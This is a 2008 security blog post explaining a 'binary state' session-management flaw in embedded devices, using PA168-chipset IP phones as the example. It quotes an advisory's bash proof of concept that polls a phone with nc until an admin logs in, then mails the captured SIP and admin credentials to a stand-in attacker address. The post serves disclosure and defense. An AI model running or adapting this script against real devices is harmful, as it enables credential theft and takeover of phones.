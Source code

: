 ```yaml
---
title: Holes in Embedded Devices - Binary state session management
author: pagvac
date: Tue, 29 Jan 2008 09:52:22 GMT
template: post.jade
---
```


This type of vulnerability is similar to IP address-based session management holes which has been discussed in my [previous post](/blog/holes-in-embedded-devices-ip-based-session-management). It is similar in the sense that the web browser of the admin user who is currently logged into the vulnerable device doesn't send any auth data such as session IDs or passwords. However, this vulnerability is more serious as illustrated by the algorithm implemented by the session management mechanism of the vulnerable device:

    if (submitted username and submitted password) == (credentials on device config)
    then
    	do activate admin session until session times out
    

    The implications are fatal: the device blindly trusts administrative HTTP requests, while the administrative session is regarded as active. In other words, if the attacker submitted an administrative request to the target device while an admin user was logged in (admin session would be active), the device would happily accept such request as it has no means to differentiate between the requests coming from the legitimate admin and those coming from the attacker!

    In this case, the attacker doesn't need to share the same source IP address with the legitimate admin user, but rather the bad guy can launch an automated attack like the one illustrated in my previous post IP address-based session management from any source IP address. The only requirement is that the submitted HTTP request is well-crafted so it looks exactly like a legitimate request.

    A real example includes IP phones from several brands that are based on the PA168 chipset. Several popular vendors in Asia such as ATCOM and SOYO ship firmwares such as version 1.42 and 1.54 that is susceptible to this vulnerability. Since the attacker can now send the malicious HTTP request from any IP address, these IP phones could be attacked remotely, provided that their web interface was Internet-facing.

    The following proof-of-concept script was published with ProCheckUp [PR06-14](http://www.procheckup.com/Vulner_PR0614.php) advisory. Such script repeatedly submits a request to the target IP phone which returns the full configuration settings as soon as an admin user logs into the web interface of the target phone. The returned configuration settings include sensitive data such as SIP gateway, SIP credentials and the credentials required to manage the IP phone:

    #!/bin/bash

    host="192.168.10.1";
    attackers_email="attacker@evil-domain.foo"
    req="POST /g HTTP/1.0\r\nContent-length: 13\r\n\r\nback=++Back++\r\n\r\n";

    while true
    do
        res=`echo -en $req | nc -nv $host 80`;
        if echo $res | grep superpassword # if this gets returned, then we got the settings page with all SIP account and IP phone creds
        then
            echo "GOT IT!"
            echo $res > "admin-settings-page"
            echo $res | mail $attackers_email -s "PA168 IP Phone admin's settings page"
            exit 1
        else
            echo "bad luck"
        fi
        sleep 5
    done
